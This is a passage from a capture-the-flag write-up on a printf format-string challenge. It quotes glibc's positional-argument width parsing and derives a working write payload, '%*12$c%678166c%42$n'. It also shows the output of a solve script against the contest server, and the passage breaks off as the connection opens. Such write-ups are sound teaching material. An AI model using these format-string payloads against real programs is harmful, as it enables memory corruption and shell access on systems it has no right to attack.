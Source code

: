 It looks like there's a way to specify the width argument with a positional argument!
When the code finds a positional argument, it switches to a [different parser](https://elixir.bootlin.com/glibc/glibc-2.35/source/stdio-common/printf-parsemb.c#L50).
Here's the variable field width code from that parser:

```c
if (*format == L_('*'))
  {
    /* The field width is given in an argument.
       A negative field width indicates left justification.  */
    const UCHAR_T *begin = ++format;

    if (ISDIGIT (*format))
      {
        /* The width argument might be found in a positional parameter.  */
        n = read_int (&format);

        if (n != 0 && *format == L_('$'))
          {
            if (n != -1)
              {
                spec->width_arg = n - 1;
                *max_ref_arg = MAX (*max_ref_arg, n);
              }
            ++format;                /* Skip '$'.  */
          }
      }

    if (spec->width_arg < 0)
      {
        /* Not in a positional parameter.  Consume one argument.  */
        spec->width_arg = posn++;
        ++nargs;
        format = begin;        /* Step back and reread.  */
      }
  }
```

So instead of consuming arguments with `%c`, we can just use `%*12$c` and that will use the 12th argument as the width.
Now the second format string can be shortened to `%*12$c%678166c%42$n`, and after a few tries I was able to get a shell:

<pre><code>[fedora@fedora noleek]$ ./solve.py REMOTE
[<span style="color:#005DD0"><b>*</b></span>] &apos;/home/fedora/noleek/noleek_patched&apos;
    Arch:     amd64-64-little
    RELRO:    <span style="color:#26A269">Full RELRO</span>
    Stack:    <span style="color:#C01C28">No canary found</span>
    NX:       <span style="color:#26A269">NX enabled</span>
    PIE:      <span style="color:#26A269">PIE enabled</span>
    RUNPATH:  <span style="color:#C01C28">b&apos;.&apos;</span>
[<span style="color:#005DD0"><b>*</b></span>] &apos;/home/fedora/noleek/libc.so.6&apos;
    Arch:     amd64-64-little
    RELRO:    <span style="color:#A2734C">Partial RELRO</span>
    Stack:    <span style="color:#26A269">Canary found</span>
    NX:       <span style="color:#26A269">NX enabled</span>
    PIE:      <span style="color:#26A269">PIE enabled</span>
[<span style="color:#005DD0"><b>*</b></span>] &apos;/home/fedora/noleek/ld-linux-x86-64.so.2&apos;
    Arch:     amd64-64-little
    RELRO:    <span style="color:#A2734C">Partial RELRO</span>
    Stack:    <span style="color:#C01C28">No canary found</span>
    NX:       <span style="color:#26A269">NX enabled</span>
    PIE:      <span style="color:#26A269">PIE enabled</span>
[<span style="color:#26A269"><b>+</b></span>] Opening connection to challs.actf.co on port 31400: Done